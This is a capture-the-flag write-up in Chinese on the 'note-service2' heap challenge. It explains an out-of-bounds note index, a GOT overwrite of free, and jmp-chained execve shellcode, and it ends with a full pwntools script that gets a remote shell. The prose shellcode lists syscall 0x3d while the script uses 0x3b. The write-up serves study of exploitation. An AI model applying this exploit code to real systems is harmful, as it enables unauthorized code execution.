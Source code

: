 # note-service2

题目来源：https://adworld.xctf.org.cn/task/

这道题是可以说第一道正式做的有关堆部分的题目，漏洞的原因是为受限制的数组下标，这样保证可以访问到任意内存的空间，先看一下安全防护：

```
Arch:     amd64-64-little                                               
RELRO:    Partial RELRO                                                     
Stack:    Canary found                                                      
NX:       NX disabled                                                       
PIE:      PIE enabled                                                       
RWX:      Has RWX segments
```

栈中有 canary 并且存在 PIE，说明这道题很难构造栈溢出的漏洞，而 NX 防护没有开启，意味着堆栈段的代码是可以执行的，这也有可能意味着需要我们自行在堆栈中堆叠代码片段。下面看一下代码，本题的代码有点零碎，而且不从 main 函数入手：

```c
void sub_E30()
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  while ( 1 )
  {
    sub_C56();
    printf("your choice>> ");
    sub_B91();
    switch ( (unsigned int)&savedregs )
    {
      case 1u:
        sub_CA5();
        break;
      case 2u:
        sub_DC1();
        break;
      case 3u:
        sub_DD4();
        break;
      case 4u:
        sub_DE7();
        break;
      case 5u:
        exit(0);
        return;
      default:
        puts("invalid choice");
        break;
    }
  }
}

int sub_CA5()
{
  int result; // eax
  int v1; // [rsp+8h] [rbp-8h]
  unsigned int v2; // [rsp+Ch] [rbp-4h]

  result = dword_20209C;
  if ( dword_20209C >= 0 )
  {
    result = dword_20209C;
    if ( dword_20209C <= 11 )
    {
      printf("index:");
      v1 = sub_B91();
      printf("size:");
      result = sub_B91();
      v2 = result;
      if ( result >= 0 && result <= 8 )
      {
        qword_2020A0[v1] = malloc(result);
        if ( !qword_2020A0[v1] )
        {
          puts("malloc error");
          exit(0);
        }
        printf("content:");
        sub_B69((__int64)qword_2020A0[v1], v2);
        result = dword_20209C++ + 1;
      }
    }
  }
  return result;
}

void sub_DE7()
{
  int v0; // ST0C_4

  printf("index:");
  v0 = sub_B91();
  free(qword_2020A0[v0]);
}
```

这是这道题最核心的一些代码，题目的意思是实现了一个可以添加笔记的一个程序，选项 1 调用 sub_CA5 历程能够在堆中开辟空间添加笔记，而 sub_DE7 则是删除笔记释放空间。虽然这道题 sub_DE7 例程中也存在问题，但是这道题的主要漏洞不在于此，着重分析一下 sub_CA5 例程。

添加笔记的逻辑中，用户一共能够添加最多 11 个笔记，而程序中定义了全局变量 qword_2020A0 是一个字符串数组，每一项记录了笔记的内容，而这个数组的每一项在堆上开辟。笔记的长度最大为 7 个字节，这是由 sub_B69 例程决定的。

这道题的主要漏洞在于添加笔记选择序号 index 的时候没有考虑边界，这样产生了堆上的任意地址写。因为确定写入位置完全靠 qword_2020A0 和偏移量，然后再仔细观察 IDA 中全局变量区和 got 表的关系，qword_2020A0 的地址在 0x002020A0，而 got 表位置则就在 bss 数据上方，所以很好通过偏移找到。

这道题的思路在于，获得 got 表的偏移，然后将指令写入 free 函数的 got 表项，这样触发 free 函数也就触发了编写的 shellcode。不过我们也能发现实际上一次性只能向堆中写入 7 个字节，所以真正的操作，需要由申请的多个片段连接起来，形成一个调用链，使用 jmp 指令可以完成这一步。我们需要插入的 shellcode 如下，使用 execve 调用来获取 shell：

```
mov rdi, $"\bin\sh"
xor rsi, rsi
xor rdx, rdx
push 0x3d
pop rax
syscall
```

这里有几点首先 mov rdi 的那一步可以引起，因为假设存储字符串操作完成后 rdi 就是字符串的地址了，而为什么这里不选择使用 mov rax, 0x3d，这和每条指令的长度有关，可以参考一下：https://www.cnblogs.com/huangshengpeng/p/13488760.html，那么关于堆的分配由于在 linux 中实现的堆必然包括如下部分：

* 上一块的大小或者最后 8 个字节
* 本快大小 8 字节
* 前向指针 8 字节
* 后向指针 8 字节

在该块被分配后前向指针和后向指针被用来作为堆中数据，所以一个块至少要有 32 字节，我们除了在堆中写上述的指令之外，还需要在每一条指令后面添加跳转语句，这样就可以使代码片段连接起来。由于每个块只有 32 个字节，所以使用 jmp short 指令进行跳转，而偏移是 0x1(\x00) + 0x08 + 0x08 + 0x08 = 0x19。执行脚本代码如下：

```python
from pwn import *                                                                    
from LibcSearcher import *                                                         
import time                                                                                                                                                                
filepath = "../../mnt/c/Users/lenovo/Desktop/1f10c9df3d784b5ba04b205c1610a11e"                                                          
def addnote(conn, index, size, content):                       
	conn.sendline("1")                           
	conn.recvuntil("index:")                        
	conn.sendline(str(index))                                   
	print conn.recvuntil("size:")              
	conn.sendline(str(size))             
	print conn.recvuntil("content:")                
	conn.send(content)                                                                                                                        
context(arch="amd64", os ="linux")                  
elf = ELF(filepath)                                                    
conn = remote("220.249.52.133", 50531)                              
print conn.recv()                                               
print conn.recv()                                                   
addnote(conn, 0, 8, "/bin/sh")                             
print conn.recvuntil("choice>> ")                          
addnote(conn, (elf.got["free"]-0x2020A0)/8, 8, asm("xor rsi,rsi") + "\x90\x90\xeb\x19")
print conn.recvuntil("choice>> ")                                
addnote(conn, 1, 8, asm("xor rdx, rdx") + "\x90\x90\xeb\x19")         
print conn.recvuntil("choice>> ")                        
addnote(conn, 2, 8, asm("push 0x3b\n pop rax") + "\x90\x90\xeb\x19")      
print conn.recvuntil("choice>> ")                                   
addnote(conn, 3, 8, asm("syscall") + "\x90"*0x5)                 
print conn.recvuntil("choice>> ")                                
conn.sendline("4")                                                      
print conn.recvuntil("index:")                               
conn.sendline("0")                                          
conn.interactive() 
```

